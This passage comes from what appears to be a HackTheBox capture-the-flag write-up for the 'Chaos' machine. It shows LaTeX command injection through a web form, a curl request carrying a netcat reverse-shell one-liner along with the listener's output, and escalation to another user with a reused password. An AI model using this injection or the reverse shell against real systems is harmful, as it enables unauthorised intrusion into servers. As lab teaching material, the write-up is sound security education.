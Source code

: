 For example, the following POST gives me the `id` output (piped into `grep` to get rid of most of the output):

```

root@kali# curl -s -X POST -d "content=%5Cimmediate%5Cwrite18%7Bid%7D&template=test3" http://chaos.htb/J00_w1ll_f1Nd_n07H1n9_H3r3/ajax.php | grep uid
(/usr/share/texlive/texmf-dist/tex/latex/latexconfig/epstopdf-sys.cfg))uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

### Shell

From here, it’s pretty easy to get a shell:

```

root@kali# curl -X POST -d "content=%5Cimmediate%5Cwrite18%7Brm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>%261|nc 10.10.14.14 443 >/tmp/f%7D&template=test3" http://chaos.htb/J00_w1ll_f1Nd_n07H1n9_H3r3/ajax.php

```

```

root@kali# nc -lnvp 443
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.120.
Ncat: Connection from 10.10.10.120:34222.
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ hostname
chaos

```

## Privesc: www-data –> ayush

### su

In `/home` there are two users:

```

www-data@chaos:/home$ ls
ayush  sahay

```

Since I already had webmail creds for ayush (“jiujitsu”), I gave them a try with `su` (after upgrading my terminal using `python -c 'import pty;pty.spawn("bash")'`, then Ctrl-z, `stty raw -echo`, `fg`, `reset`), and they worked:
